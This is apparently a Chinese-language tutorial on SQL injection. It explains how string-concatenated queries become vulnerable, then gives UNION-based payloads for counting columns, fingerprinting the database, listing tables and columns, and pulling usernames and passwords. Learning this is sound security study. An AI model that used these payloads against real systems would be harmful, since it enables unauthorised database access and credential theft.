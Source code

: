 # SQL注入

## SQL注入原理

SQL注入漏洞源自于程序员在应用开发时，通过 **拼接** 的方式来生成SQL语句。考虑以下代码：

> sql = "SELECT title, description FROM books WHERE isbn = '" + $isbn + "' AND public = 1";

在“正常”情况下，程序员期待生成的SQL语句是类似这样的：

> SELECT title, description  
> FROM books  
> WHERE isbn = '`123`'  
> AND public = 1

但如果变量`isbn`受控，我们可以令：

> isbn = "`' UNION SELECT username, password FROM users -- `";

拼接后，SQL语句变为：

> SELECT title, description  
> FROM books  
> WHERE isbn = '<font color="red">' UNION SELECT username, password FROM users</font><font color="grey"> -- ' AND public = 1</font>

这样我们就把表`users`中的`username`和`password`也查出来了。

## UNION注入

### 确定SQL语句中“列”的数量

#### 方法一：通过 ORDER BY 子句试探

可以通过一系列“`ORDER BY 1`” 、“`ORDER BY 2`” ... 子句进行试探，如果进行到 “`ORDER BY n`” 时报错，则SQL语句有`n-1`列。

#### 方法二：通过 UNION SELECT UNLL 子句试探

可以通过一系列“`UNION SELECT NULL`”、“`UNION SELECT UNLL, NULL`” ... 子句进行试探，如果 SELECT `n` 个 NULL 时不再报错则SQL语句有`n`列。之所以用`NULL`，是因为每一列的元素数据类型要兼容，`NULL`与任何类型都兼容。

### 确定SQL语句中哪些列兼容字符串

通过一系列“`UNION SELECT 'a', NULL`”、“`UNION SELECT NULL, 'a'`”之类进行试探即可。

### 查询数据库版本

| 数据库           | SQL语法                      |
|------------------|------------------------------|
| MySQL，SqlServer | SELECT @@version             |
| Oracle           | SELECT banner FROM v$version |
| PostgreSQL       | SELECT version()             |

### 查询表信息

| 数据库                       | SQL语法                                                        |
|------------------------------|----------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT table_schema, table_name FROM information_schema.tables |
| Oracle                       | SELECT owner, table_name FROM all_tables                       |

### 查询列信息

| 数据库                       | SQL语法                                                                                       |
|------------------------------|-----------------------------------------------------------------------------------------------|
| MySQL，SqlServer，PostgreSQL | SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'TABLE-NAME' |
| Oracle                       | SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'TABLE-NAME'            |

### 把多个表列的信息合并为一列显示

`' UNION SELECT CONCAT(username, '~', password) FROM users-- `

| 数据库               | 拼接语法               |
|---------------------|-----------------------|
| MySQL               | CONCAT('foo', 'bar')  |
| Oracle， PostgreSQL | 'foo' \|\| 'bar'      |
| Microsoft           | 'foo' + 'bar'         |
